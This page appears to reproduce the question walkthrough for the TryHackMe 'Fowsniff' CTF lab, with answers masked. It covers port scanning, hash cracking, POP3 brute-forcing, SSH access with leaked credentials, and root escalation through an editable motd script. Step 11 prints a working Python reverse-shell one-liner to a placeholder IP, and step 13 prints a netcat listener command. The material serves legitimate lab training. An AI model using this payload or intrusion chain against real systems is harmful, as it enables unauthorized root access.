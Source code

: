 ```yaml
---
title:  "THM: Fowsniff CTF"
date:   2024-03-31 19:00:00 +0000
categories: [CTF]
tags: [CTF]
---
```


![img](/assets/img/ctf-fowsniff.png)  


---
Ref: 

- [THM: Fowsniff CTF](https://tryhackme.com/r/room/ctf)

---
Deploy the machine. On the top right of this you will see a Deploy button. Click on this to deploy the machine into the cloud. Wait a minute for it to become live.



1. Using nmap, scan this machine. What ports are open?


2. Using the information from the open ports. Look around. What can you find?


3. Using Google, can you find any public information about them?


4. Can you decode these md5 hashes? You can even use sites like hashkiller to decode them.

5. Using the usernames and passwords you captured, can you use metasploit to brute force the pop3 login?


6. What was seina's password to the email service?

Answer : **********

7. Can you connect to the pop3 service with her credentials? What email information can you gather?

8. Looking through her emails, what was a temporary password set for her?

Answer format: ***********************

9. In the email, who send it? Using the password from the previous question and the senders username, connect to the machine using SSH.


10. Once connected, what groups does this user belong to? Are there any interesting files that can be run by that group?


11. Now you have found a file that can be edited by the group, can you edit it to include a reverse shell?

Python Reverse Shell:

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((<IP>,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

Other reverse shells: [here](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).


12. If you have not found out already, this file is run as root when a user connects to the machine using SSH. We know this as when we first connect we can see we get given a banner (with fowsniff corp). Look in /etc/update-motd.d/ file. If (after we have put our reverse shell in the cube file) we then include this file in the motd.d file, it will run as root and we will get a reverse shell as root!


13. Start a netcat listener (nc -lvp 1234) and then re-login to the SSH service. You will then receive a reverse shell on your netcat session as root!

--- 

If you are really really stuck, there is a brilliant walkthrough here: https://www.hackingarticles.in/fowsniff-1-vulnhub-walkthrough/ 

If its easier, follow this walkthrough with the deployed machine on the site.
